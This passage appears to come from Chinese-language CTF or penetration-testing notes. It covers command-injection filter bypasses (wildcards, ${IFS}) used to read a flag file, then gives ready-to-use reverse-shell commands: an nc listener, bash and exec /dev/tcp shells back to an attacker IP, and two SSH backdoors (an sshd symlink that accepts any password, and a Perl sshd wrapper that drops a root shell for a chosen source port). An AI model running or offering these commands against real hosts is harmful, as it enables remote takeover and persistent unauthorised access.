 ```
```

- {…}与[…]有一个很重要的区别。如果匹配的文件不存在，[…]会失去模式的功能，变成一个单纯的字符串，而{…}依然可以展开。

通配符有时可以起奇效

```
cat fla* 
cat${IFS}fl*
```

**注意:**又是还会遇到flag 的贪婪匹配`/.*f*.l*.a*.g*/`这是拼接什么的基本不能用,就不得不考虑编码等其他姿势

## 反弹shell

目标机执行反弹shell的命令,攻击机用nc开启监听就行

### 攻击机

```
nc -lvvp 8080
```

### 目标机

#### bash

```
bash -i >& /dev/tcp/192.1168.0.1/8080 0>&1
```

#### exec

```
exec 5<>/dev/tcp/ip/port;cat <&5|while read line;do $line >&5 2>&1;done
```

#### ssh

```
受害主机执行:
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=8080;   

攻击机器:
ssh root@192.168.3.251 -p 8080 [用户名root,密码随意]


简易SSH wrapper后门(原理未测试)
受害主机执行:
cd /usr/sbin
mv sshd ../bin
echo '#!/usr/bin/perl' > sshd
echo 'exec "/bin/sh" if (getpeername(STDIN) =~ /^..4A/);' >>sshd
echo 'exec {"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd
/etc/init.d/sshd restart

攻击机器:
socat STDIO TCP4:x.x.x.x:22,souceport=13337
```
